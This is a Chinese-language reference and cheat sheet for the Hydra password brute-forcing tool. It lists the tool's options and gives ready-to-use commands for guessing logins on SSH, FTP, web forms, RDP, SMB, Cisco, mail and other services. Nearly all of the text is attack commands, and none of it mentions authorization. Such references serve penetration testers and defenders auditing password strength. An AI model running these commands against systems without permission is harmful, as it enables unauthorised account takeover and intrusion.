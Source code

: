 > hydra(九头蛇) 是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。

命令参数
---

    hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
    [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]
    -R 继续从上一次进度接着破解。
    -S 采用SSL链接。
    -s PORT 可通过这个参数指定非默认端口。
    -l LOGIN 指定破解的用户，对特定用户破解。
    -L FILE 指定用户名字典。
    -p PASS 小写，指定密码破解，少用，一般是采用密码字典。
    -P FILE 大写，指定密码字典。
    -e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
    -C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
    -M FILE 指定目标列表文件一行一条。
    -o FILE 指定结果输出文件。
    -f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
    -t TASKS 同时运行的线程数，默认为16。
    -w TIME 设置最大超时的时间，单位秒，默认是30s。
    -v / -V 显示详细过程。
    server 目标ip
    service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
    OPT 可选项

例子
---

    1、破解ssh：
    
    hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
    hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh
    
    2、破解ftp：
    
    hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
    hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
    
    3、get方式提交，破解web登录：
    
    hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
    hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
    
    4、post方式提交，破解web登录：
    
    hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
    
    
    hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"
    
    
    （参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）
    
    5、破解https：
    
    hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
    
    6、破解teamspeak：
    
    hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
    
    7、破解cisco：
    
    hydra -P pass.txt 10.36.16.18 cisco
    hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
    
    8、破解smb：
    
    hydra -l administrator -P pass.txt 10.36.16.18 smb
    
    9、破解pop3：
    
    hydra -l muts -P pass.txt my.pop3.mail pop3
    
    10、破解rdp：
    
    hydra ip rdp -l administrator -P pass.txt -V
    
    11、破解http-proxy：
    
    hydra -l admin -P pass.txt http-proxy://10.36.16.18
    
    12、破解imap：
    
    hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
    hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
